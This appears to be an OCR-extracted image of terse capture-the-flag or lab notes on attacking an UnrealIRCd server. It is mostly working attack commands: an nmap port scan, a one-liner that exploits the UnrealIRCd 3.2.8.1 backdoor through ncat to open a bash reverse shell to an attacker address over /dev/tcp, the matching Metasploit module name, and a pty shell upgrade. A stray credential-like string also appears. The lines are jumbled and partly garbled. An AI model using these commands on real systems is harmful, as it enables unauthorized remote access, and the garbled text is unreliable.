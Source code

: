 echo "CD; bash -c 'bash -i >& /dev/tcp/10.10.14.6/5678 0>&1'" | ncat 10.129.184.128 8067
nmap -p- -sV 10.129.184.128 --open       6697, 8067
use exploits/unix/irc/unreal_ircd_3281_backdoor           Kab6h+m+bbp2J:HG
python -c 'import pty;pty.spawn("/bin/bash")'
